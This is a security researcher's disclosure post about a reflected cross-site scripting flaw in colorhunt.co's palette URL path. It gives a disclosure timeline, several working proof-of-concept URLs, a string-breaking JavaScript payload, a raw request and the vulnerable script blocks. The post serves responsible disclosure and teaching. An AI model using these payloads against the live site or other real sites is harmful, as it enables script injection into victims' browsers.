 ```yaml
---
title: Colorhunt.co Reflective Cross-Site Scripting (XSS) via Pallet Type
description: Finding Multiple DOM-Based XSS Vulnerabilities
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-08-25 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Finding Multiple DOM-Based XSS Vulnerabilities
card: card-2
postid: 1
navheader: posts
---
```


In this post, I'll describe a DOM based reflective cross-site scripting vulnerability I disclosed to colorhunt.co back on June 5th. While the application owner was appreciative of the disclosure, they stated they were already aware of the vulnerability and had no plans to mitigate the risks. I offered to wait for public disclosure until a patch had been issued, and provided several mitigation strategies which could reduce the impact of the vulnerability, ultimately publishing this disclosure in late August. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)  
+  [Executive Summary]({{page.url}}#executive-summary)  
+  [Proof of Concept]({{page.url}}#proof-of-concept)     

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at colorhunt.co, could not do so, and contacted team@colorhunt.co and product developer hello@galshir.com</div>
              <div class="tl-date text-muted mt-1">5 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response hello@galshir.com requesting the disclosure details</div>
              <div class="tl-date text-muted mt-1">5 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">I provide a complete <a href="/assets/pdf/colorhunt_xss_disclosure.pdf" class="highlighted">disclosure report</a></div>
              <div class="tl-date text-muted mt-1">6 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">Colorhunt product developer states they were aware of the vulnerability</div>
              <div class="tl-date text-muted mt-1">7 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">I state I'll will wait for public disclsure until fix is live</div>
              <div class="tl-date text-muted mt-1">9 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I do not recieve a response from previous email, and email again stating my desire to publish early July or wait longer if a patch will be published</div>
              <div class="tl-date text-muted mt-1">30 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I do not hear back from product developer and publish the disclosure</div>
              <div class="tl-date text-muted mt-1">25 Aug 2021</div>
          </div>
      </div>
    </div>



### **Executive Summary**   
On June 5th, I discovered a reflected cross-site (xss) scripting vulnerability in colorhunt.co via the pallet type selection. Malicious users can inject arbitrary javascript directly into two script elements by appending a crafted payload to the end of the pallet name in the resource `/palettes/[term]`. This vulnerability can be used to spread malicious links that execute client-side code in victim browsers. It is recommended that colorhunt triage this vulnerability as soon as possible, and implement validation and sanitization measures.

### **Proof of Concept**:  
To demonstrate the vulnerability, I created a few proof of concept exploits. Notice that any payload will execute if placed after `/pallets/`, and the use of pallet terms like 'trendy' is not necessary. Performing a GET request with the following urls will result in an alert box executing.  
- [x] [https://colorhunt.co/palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo)  
- [x] [https://colorhunt.co/palettes/popular%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/popular%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/random%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/random%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/idontexist%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/idontexist%22;alert('xss');var%20foo%20=%20%22foo)

**Payload**:  `trendy%22;alert('xss');var%20foo%20=%20%22foo`

```yaml
GET /palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo HTTP/2
Host: colorhunt.co
Cookie: _ga=GA1.2.899449749.1622947948; _gid=GA1.2.309200134.1622947949; __gads=ID=e1e1623e28567740-22296d5a887a004b:T=1622947948:RT=1622947948:S=ALNI_MayH-wZSN2DBrZpy709ubLpdffneA
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```  



<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/xss.png">
    </div>
</div>  


## Exploitability  
Below is a quick sample scenario that shows how this vulnerability can be exploited  

> *Attacker sends targeted smishing message to victim*  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part1.png">
    </div>
</div>  


> *Vitim recieves message and opens link*  



<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part2.png">
    </div>
</div>  


> *Payload executes in vicitm browser*  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part3.png">
    </div>
</div>  


### **Vulnerable Components**  

I've identified the following component as the root cause of the reflected XSS vulnerability.  

#### Vulnerable Component 1

The script element near line 193 of `https://colorhunt.co/palettes/trendy` takes the pallet type name ( in this case "trendy") and injects it into the `tags` variable. To exploit this, the payload above closes the tags variable, injects an arbitrary javascript function (in the below example, to log to the console), and then declares a new variable to close out the payload.  

```javascript
<script>
var tags = "trendy";console.log('foo');var foo = "foo";
var sort = "new";
$('#sort_menu new').addClass("selected");

t = 0;
step = 0;
oktoload = "yes";

if(navigator.userAgent.toLowerCase().indexOf('firefox') > -1){
  $('#likes .list').css('overflow','hidden');
}

$(function() {
  taker(step,sort,tags);
  list_likes();
  select_sort_button(sort);
  setTimeout(function() { like_first_palette_tip(); }, 1500);
});
</script>
```


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/vulnerable-component-1.png">
    </div>
</div>  

#### Vulnerable Component 2: 

The script element near line 222 of `https://colorhunt.co/palettes/trendy` takes the pallet type name ( in this case "trendy") and injects it into the `current` variable. To exploit this, the payload above closes the tags variable, injects an arbitrary javascript function (in the below example, to log to the console), and then declares a new variable to close out the payload.  

```javascript
<script type="text/javascript">

$(function() {
  current = "palettes";
  tags = "trendy";alert('abc123');var foo = "foo";
  select_menu_button(current);
});
```


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/vulnerable-component-2.png">
    </div>
</div>  

